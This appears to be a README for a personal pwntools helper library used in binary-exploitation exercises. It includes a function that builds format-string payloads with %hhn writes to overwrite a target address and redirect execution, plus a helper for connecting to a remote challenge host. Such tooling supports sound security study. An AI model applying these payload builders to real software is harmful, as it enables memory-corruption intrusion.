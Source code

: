 ```python
from pwn import *

global p
global elf

def start(prog, args, port=None, gdb_cmd=None):
    prog = './' + prog

    context.arch = 'i386'
    context.terminal = ['urxvtc', '-e', 'sh', '-c']

    if args.REMOTE:
        p = remote('plsdonthaq.me', port)
        elf = ELF(prog)

    elif args.GDB:
        p = gdb.debug(prog, gdb_cmd) 
        elf = ELF(prog)

    else:
        p = process(prog)
        elf = p.elf

    return p, elf

def grab(p, start, end):
    p.recvuntil(start)
    return p.recvuntil(end, drop=True)

def pack(msg):
    print(bytes(msg, 'utf-8'))
    return bytes(msg, 'utf-8')

def fmtstr_build(win, target, offset, padding):
    payload = b"A" * padding
    payload += p32(target + 0) + p32(target + 1) + p32(target + 2) + p32(target + 3)
    payload += f"%{240 - padding}c".encode()

    for i in range(4):
        byte = win & 0xff
        win >>= 8
        if (byte == 0):
            payload += f"%{offset + i}$hhn".encode()
        else:
            payload += f"%{byte}c%{offset + i}$hhn%{256 - byte}c".encode()

    return payload
```

Then add the folder the lib is stored into your python path:
```bash
export PYTHONPATH="$PYTHONPATH:/folder/location/"
```
You can either run this every time you open a new terminal, or add it to your ~/.bashrc or ~/.zshrc and it will auto-run it everytime.